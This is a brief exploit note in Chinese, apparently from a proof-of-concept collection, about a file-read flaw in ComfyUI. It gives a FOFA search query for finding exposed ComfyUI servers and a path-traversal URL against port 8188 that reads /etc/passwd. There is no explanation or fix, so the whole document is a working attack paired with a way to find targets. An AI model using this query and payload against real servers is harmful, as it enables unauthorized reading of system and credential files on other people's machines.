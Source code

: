 ## omfyUI follow_symlinks文件读取漏洞

## fofa
```
app="ComfyUI"
```

## poc
```
http://ip:8188/../../../../../../../../../../../../../../etc/passwd
```
